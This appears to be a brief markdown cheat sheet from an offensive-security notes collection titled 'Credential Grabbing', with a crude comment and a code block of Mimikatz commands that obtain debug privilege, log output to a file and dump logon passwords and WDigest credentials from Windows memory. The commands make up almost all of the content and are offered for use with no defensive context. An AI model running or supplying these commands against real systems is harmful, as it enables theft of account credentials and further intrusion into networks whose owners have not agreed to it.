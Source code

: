 # Credential Grabbing

1. Fucking mimikatz basic bitches.
2. 
Run Mimikatz
```
mimikatz # privilege::debug  
mimikatz # log m.txt  
mimikatz # sekurlsa::logonpasswords  
mimikatz # sekurlsa::wdigest
```
